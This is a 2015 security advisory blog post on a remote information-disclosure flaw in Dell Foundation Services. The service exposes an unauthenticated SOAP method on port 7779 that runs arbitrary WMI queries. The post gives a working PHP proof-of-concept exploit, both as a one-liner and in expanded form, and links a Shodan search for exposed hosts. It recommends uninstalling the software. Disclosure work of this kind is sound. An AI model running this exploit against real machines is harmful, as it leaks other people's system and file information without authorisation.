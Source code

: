 ```yaml
---
layout: post
title: "Security Advisory: Dell Foundation Services Remote Information Disclosure (II)"
date: 2015-11-25
categories:
---
```


*By slipstream/RoL.*

# Overview

Dell Foundation Services (otherwise known by its internal name of "Tribbles") "provides a core set of foundational services facilitating customer serviceability, messaging and support functions".

# Issues

Dell Foundation Services starts an HTTPd that listens on port 7779. The previous service tag leak was fixed by removing the JSONP API.

However, the webservice in question is still available; it is now a SOAP service, and all methods of that webservice can be accessed, not just the ServiceTag method.

One of the methods accessible is `List<WmiManagementItem> GetWmiCollection(string wmiQuery)` - this returns the results of a given WMI (Windows Management Instrumentation, "the infrastructure for management data and operations on Windows-based operating systems") query, enabling access of hardware information, installed software, running processes, installed services, accessible hard disks, filesystem metadata (filenames, file size, dates) and more.

[Many potentially vulnerable hosts can be found via Shodan](https://www.shodan.io/search?query=port%3A7779+httpapi+404&language=None) and the issue can also be exploited over a LAN.

Quick PHP one-liner Proof-of-Concept:

````
`php -r "function wmic($ip,$query) { var_dump(dowmic($ip,$query)); } function dowmic($ip,$query) { return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/'))); } function callApi($ip,$method,$params = array()) { return (new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/')))->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method)); } wmic('','');"`
````

This can be expanded to:

````
<?php
function wmic($ip,$query) {
	var_dump(dowmic($ip,$query));
}

function dowmic($ip,$query) {
	return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/')));
}

function callApi($ip,$method,$params = array()) {
	return (
		new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/'))
	)->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method));
}

wmic('','');
````

# Affected Versions

3.0.700.0.

# Solution

Uninstallation of Dell Foundation Services will prevent exploitation of the issue. The researchers cannot sanction any mitigations except to remove this software definitively from any affected devices.
